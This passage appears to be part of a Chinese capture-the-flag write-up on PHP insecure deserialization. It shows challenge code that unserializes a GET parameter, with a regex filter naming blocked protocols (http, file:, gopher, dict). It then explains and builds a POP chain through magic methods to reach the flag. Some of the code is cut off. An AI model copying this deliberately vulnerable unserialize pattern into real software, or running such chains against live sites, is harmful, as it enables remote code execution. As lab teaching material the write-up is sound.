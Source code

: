 ```php
    public $source;
    public $str;
    public function __construct()
    {
        echo $this->source."<br>";
    }

    public function __toString()
    {
        $this->str['str']->source;
    }
    public function __wakeup()
    {
        if(preg_match("/http|https|file:|gopher|dict|\.\./i", $this->source)) {
            echo "hacker~";
            $this->source = "index.php";
        }
    }
}

class Test
{
    public $params;
    public function __construct()
    {
        $this->params = array();
    }

    public function __get($key)
    {
        $func = $this->params;
        return $func();
    }
}
if(isset($_GET['chal']))
{
    $chal = unserialize($_GET['chal']);
}
```

我们要拿到flag，在`__invoke()`函数，当对象被当作函数调用时，那么就会自动执行该函数。所以我们要做的就是用函数来调用对象。

那么我们首先找到起点，就是unserialize函数的变量，因为这个变量是我们可控的，但是肯定是过滤了一些常见的协议，那些协议我在上面也简单介绍过用法。

通过函数的过程搜索，我们能够看到preg_match第二个参数会被当作字符串处理，在类Test中，我们可以给$func赋值给Read对象。

那么我们可以构造如下pop链

```php
<?php 
    ··········
    $read = new Read();
    $show = new Show();
    $test = new Test();
	
	$read->token = &$read->token_flag;
    $test->params = $read;
    $show->str['str'] = $test;
    $show->source = $show;
    echo serialize($show);
?>
```
